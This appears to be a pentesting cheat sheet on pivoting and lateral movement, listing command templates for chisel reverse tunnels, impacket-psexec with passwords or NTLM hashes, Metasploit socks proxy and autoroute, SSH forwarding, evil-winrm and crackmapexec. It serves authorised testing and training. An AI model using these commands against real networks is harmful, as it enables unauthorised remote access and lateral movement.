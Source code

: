 # Tools

`chisel` Tunneling.
`impacket-psexec` Remote access.
`nc` Connections.
`proxychains` Tunneling.
`socat` Tunneling.
`ssh` Remote connections, tunneling.
`sshuttle` Tunneling.

# Chisel

Server
`chisel server -p port --reverse`

Client
`chisel client server_ip:server_port R:local_port:client_ip:client_port`

# PsExec

Using Creds
`impacket-psexec domain/user:pass@ipaddress`

Using Hash
`impacket-psexec domain/user@ipaddress -hashes ntlmhashpart1:ntlmhashpart2`

# Socks Proxy

## Method 1

Metasploit
```
search socks
use auxiliary/server/socks_proxy
run
```

Edit attacker /etc/proxychains.conf
```
[ProxyList]
socks5 127.0.0.1 1080
```

Enable autoroute in Metasploit to automatically route all internal networks of the remote system back to us through Socks Proxy
```
search autoroute
use post/multi/manage/autoroute
set session sessionnumber
run
```

# SSH

Connect Using SSH Key
```
chmod 600 id_rsa
ssh -i id_rsa user@host
```

Local Port Forwarding
`ssh [-fNT to run in bg] -L [local_addr:]:local_port:remote_addr:remote_port [user@]gateway_addr`

Remote Port Forwarding
`ssh [-fNT to run in bg] -R [remote_addr:]remote_port:local_addr:local_port [user@]gateway_addr`

Dynamic Port Forwarding
```
ssh -D port user@target

Can configure browser proxy, e.g., FoxyProxy, for web access.

To proxychains this, edit /etc/proxychains4.conf:
socks5 127.0.0.1 port username password
```

# WinRM

Evil-WinRM
`evil-winrm -i ipaddress -u username -p password`

CrackMapExec
`crackmapexec winrm ipaddress -u username -p password`
